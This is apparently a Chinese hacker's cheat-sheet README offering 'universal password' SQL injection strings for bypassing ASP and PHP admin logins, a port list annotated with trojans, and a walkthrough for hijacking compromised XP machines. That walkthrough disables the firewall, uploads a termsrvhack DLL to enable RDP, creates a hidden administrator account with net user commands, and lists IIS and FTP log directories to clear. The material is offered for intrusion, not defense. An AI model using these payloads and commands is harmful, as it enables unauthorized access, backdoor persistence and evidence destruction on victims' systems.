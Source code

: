 # wan-nen-mima
万能密码
所谓万能密码就是绕过登录验证直接进入管理员后台的密码，这种类型的密码可以通用到很多存在此漏洞的网站所以称之为万能。
分享给大家、、 希望对大家有所帮助！
asp aspx万能密码
1："or "a"="a
2：'.).or.('.a.'='.a 
3：or 1=1--
4：'or 1=1--
5：a'or' 1=1--
6："or 1=1--
7：'or.'a.'='a
8："or"="a'='a
9：'or''='
10：'or'='or'
admin'or 1=1#
PHP万能密码
admin'/*
密码*/'
'or 1=1/*
"or "a"="a
"or 1=1--
"or"="
"or"="a'='a
"or1=1--
"or=or"
''or'='or'
') or ('a'='a
'.).or.('.a.'='.a
'or 1=1
'or 1=1--
'or 1=1/*
'or"="a'='a
'or' '1'='1'
'or''='
'or''=''or''='
'or'='1'
'or'='or'
'or.'a.'='a
'or1=1--
1'or'1'='1
a'or' 1=1--
a'or'1=1--
or 'a'='a'
or 1=1--
or1=1--
通过该工具可以扫描常用的端口和指定的端口是否开放。 
常用端口号：
代理服务器常用以下端口：
（1）. HTTP协议代理服务器常用端口号：80/8080/3128/8081/9080
（2）. SOCKS代理协议服务器常用端口号：1080
（3）. FTP（文件传输）协议代理服务器常用端口号：21
（4）. Telnet（远程登录）协议代理服务器常用端口：23
 
HTTP服务器，默认的端口号为80/tcp（木马Executor开放此端口）；
HTTPS（securely transferring web pages）服务器，默认的端口号为443/tcp 443/udp；
Telnet（不安全的文本传送），默认端口号为23/tcp（木马Tiny Telnet Server所开放的端口）；
FTP，默认的端口号为21/tcp（木马Doly Trojan、Fore、Invisible FTP、WebEx、WinCrash和Blade Runner所开放的端口）；
TFTP（Trivial File Transfer Protocol ），默认的端口号为69/udp；
SSH（安全登录）、SCP（文件传输）、端口重定向，默认的端口号为22/tcp；
SMTP Simple Mail Transfer Protocol (E-mail)，默认的端口号为25/tcp（木马Antigen、Email Password Sender、Haebu Coceda、Shtrilitz Stealth、WinPC、WinSpy都开放这个端口）；
POP3 Post Office Protocol (E-mail) ，默认的端口号为110/tcp；
WebLogic，默认的端口号为7001；
Webshpere应用程序，默认的端口号为9080；
webshpere管理工具，默认的端口号为9090；
JBOSS，默认的端口号为8080；
TOMCAT，默认的端口号为8080；
WIN2003远程登陆，默认的端口号为3389；
Symantec AV/Filter for MSE ,默认端口号为 8081；
Oracle 数据库，默认的端口号为1521；
ORACLE EMCTL，默认的端口号为1158；
Oracle XDB（ XML 数据库），默认的端口号为8080；
Oracle XDB FTP服务，默认的端口号为2100；
MS SQL*SERVER数据库server，默认的端口号为1433/tcp 1433/udp；
MS SQL*SERVER数据库monitor，默认的端口号为1434/tcp 1434/udp；
QQ，默认的端口号为1080/udp
XP下双开3389的教程
用到的工具有 
xp3389.exe  termsrvhack.dll  3389.bat 这么几个文件
首先关他的防火墙
就在这里面输入   net stop sharedaccess  再回车就OK了
现在我们先把xp3389.exe  termsrvhack.dll这2个文件传个肉鸡  3389.bat这个要修该后再传的
再运行它。看操作
OK! the Tsenabled成功
再输入Tasklist/SVC >>c:\3389.txt
再肉鸡里面找到3389.txt文件本地打开DcomLaunch, TermService  把这些英文前面的数字记下来
然后返回本地找到  3389.bat
右键编辑  把原来的覆盖掉  保持OK  再传给肉鸡  并运行他
已经OK了。好我们看下能不能连接
  
1：net stop sharedaccess(关掉防火墙命令)
              2：Tasklist/SVC >>c:\3389.txt
              3：net user 1 1 /add 意思是建立一下用户名为1密码也为1的用户
              4：net localgroup administrators 1 /add 把１这个用户提升为管理员权限
日志位于/windows/system32/logfiles/w3svc1目录下!
    主要原因：
     C:\WINDOWS\system32\LogFiles文件夹下为系统日志统计文件,文件系统并不自动删除。
    处理方法：对日志文件进行合理的清理。    
    清理方法如下：
    找到c:/winnt/system32/logfiles/w3svc1目录下的文件，队保留最近的几个日志外，清理干净就可以了！！
    FTP日志默认位置：%systemroot%\system32\logfiles\msftpsvc1\，默认每天一个。
    WWW日志默认位置：%systemroot%\system32\logfiles\w3svc1\，默认每天一个日志。
强制登陆3389
mstsc /admin /v:IP:端口

